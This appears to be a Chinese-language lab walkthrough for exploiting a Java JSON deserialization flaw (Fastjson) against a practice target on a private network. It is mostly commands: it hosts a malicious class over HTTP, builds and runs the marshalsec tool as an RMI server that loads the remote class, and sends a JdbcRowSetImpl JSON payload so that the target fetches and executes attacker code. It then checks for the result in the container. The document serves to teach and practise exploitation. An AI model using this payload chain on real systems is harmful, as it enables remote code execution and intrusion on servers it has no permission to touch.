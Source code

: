 ```
搭建http服务传输恶意文件
在所在目录开启http服务
python -m http.server 4444

```

```
利用java 反序列化利用工具 marshalsec

git clone https://github.com/mbechler/marshalsec.git 下载marshalsec

apt-get install maven 安装maven

mvn clean package -DskipTests 使用maven编译marshalsec成jar包
建议使用梯子,如下图下载的很多,很小但是很慢
也可以联系我我发给你这个项目,实测是可以操作的

```

```
启动RMI服务器

然后借助marshalsec项目，启动一个RMI服务器，监听9999端口，并制定加载远程类

cd target

java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://192.168.139.129:4444/#Exp" 9999
（这里如果要启动LDAP服务的话，只需把上面命令中的RMI改成LDAP即可）

```

```
通过burp抓取靶场数据包(http://192.168.139.136:8090)并写入poc(请求包里面请求方式改成post，Content-Type改成application/json)：
并添加
{
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://192.168.139.129:9999/Exp",
        "autoCommit":true
    }
}

```

```
发送到回放模块
进行测试


最后
进入docker环境
docker exec -it (xx) bash  xx为CONTAINER ID
查看tmp目录文件
cd /tmp
ls -al

```
